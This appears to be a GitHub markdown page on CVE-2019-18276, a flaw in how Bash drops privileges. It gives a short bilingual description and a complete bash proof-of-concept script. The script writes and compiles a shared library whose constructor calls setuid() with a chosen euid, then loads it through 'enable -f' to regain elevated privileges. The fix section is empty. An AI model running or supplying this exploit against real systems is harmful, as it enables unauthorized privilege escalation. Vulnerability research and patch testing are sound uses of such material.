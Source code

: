 # CVE-2019-18276
---
## threat type
  local  

---

## vulnerability type  
  其他。

---
## introduction
	Bash 5.0 patch 11及之前版本中的shell.c文件的disable_priv_mode存在安全漏洞。攻击者可利用该漏洞获取权限。
	By default, if Bash is run with its effective UID not equal to its real UID,
	it will drop privileges by setting its effective UID to its real UID.
	However, it does so incorrectly. On Linux and other systems that support "saved UID" functionality,
	the saved UID is not dropped. An attacker with command execution in the shell can use "enable -f" for runtime loading of a new builtin, which can be a shared object that calls setuid() and therefore regains privileges. However, binaries running with an effective UID of 0 are unaffected.
  
---
## recurrence
```sh
#!/bin/bash
#Terminal Color Codes

RED='\033[0;31m'
GREEN='\033[0;32m'
NC='\033[0m'

#Get the Effective User ID (owner of the SUID /bin/bash binary)
read -p "Please enter effective user id (euid) : " euid
#Create a C file and output the exploit code
touch pwn.c
echo "" > pwn.c
cat <<EOT >> pwn.c

#include <sys/types.h>
#include <unistd.h>
#include <stdio.h>
 
void __attribute((constructor)) initLibrary(void) {
        printf("Escape lib is initialized");
        printf("[LO] uid:%d | euid:%d%c", getuid(), geteuid());  
        setuid($euid);
        printf("[LO] uid%d | euid:%d%c", getuid(), geteuid());
}

EOT
echo -e  "${RED}"
echo -e "Exploit Code copied to pwn.c !\n"
sleep 5
echo -e "Compiling Exploit Object ! \n"
$(which gcc ) -c -fPIC pwn.c -o pwn.o
sleep 5
echo -e "Compiling Exploit Shared Object ! \n"
$(which gcc ) -shared -fPIC pwn.o -o libpwn.so
sleep 5
echo -e "Exploit Compiled ! \n"
sleep 5
echo -e "Executing Exploit :)  \n"
sleep 5
#Execute the Shared Library
echo -e "${RED}Run  : ${NC} enable -f ./libpwn.so asd \n"
```

---
## exploitaion  
  

---
## fix

---
## reference
- https://www.youtube.com/watch?v=-wGtxJ8opa8 : 解释性视频
  

